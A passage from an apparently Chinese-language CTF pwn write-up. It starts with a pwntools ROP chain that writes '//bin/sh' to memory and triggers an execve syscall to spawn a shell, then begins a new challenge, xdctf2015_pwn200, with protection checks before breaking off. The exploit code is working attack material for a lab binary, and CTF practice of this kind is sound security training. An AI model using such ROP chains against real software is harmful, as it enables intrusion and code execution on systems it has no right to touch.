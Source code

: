 ```
rop = b''

rop += rebase_0(0x00070016) # 0x080b8016: pop eax; ret; 
rop += b'//bi'
rop += rebase_0(0x00026cda) # 0x0806ecda: pop edx; ret; 
rop += rebase_0(0x000a2060)
rop += rebase_0(0x0000c66b) # 0x0805466b: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00070016) # 0x080b8016: pop eax; ret; 
rop += b'n/sh'
rop += rebase_0(0x00026cda) # 0x0806ecda: pop edx; ret; 
rop += rebase_0(0x000a2064)
rop += rebase_0(0x0000c66b) # 0x0805466b: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x00070016) # 0x080b8016: pop eax; ret; 
rop += p(0x00000000)
rop += rebase_0(0x00026cda) # 0x0806ecda: pop edx; ret; 
rop += rebase_0(0x000a2068)
rop += rebase_0(0x0000c66b) # 0x0805466b: mov dword ptr [edx], eax; ret; 
rop += rebase_0(0x000001c9) # 0x080481c9: pop ebx; ret; 
rop += rebase_0(0x000a2060)
rop += rebase_0(0x00096769) # 0x080de769: pop ecx; ret; 
rop += rebase_0(0x000a2068)
rop += rebase_0(0x00026cda) # 0x0806ecda: pop edx; ret; 
rop += rebase_0(0x000a2068)
rop += rebase_0(0x00070016) # 0x080b8016: pop eax; ret; 
rop += p(0x0000000b)
rop += rebase_0(0x00027430) # 0x0806f430: int 0x80; ret; 

junk=b'a'*(0xc+4)

payload=junk+rop
io.sendline(payload)
io.interactive()
```

rop链的构造，使用ROPgadget或者ropper一把梭。

2022/04/06

### xdctf2015_pwn200

检查保护 

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091213210.png" alt="image-20220409092751973" style="zoom:80%;" />

32位，开启NX保护

可以在终端查看有哪些功能函数

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204091213616.png" alt="image-20220409092913394" style="zoom:80%;" />

看到了read和write函数

ida打开看看
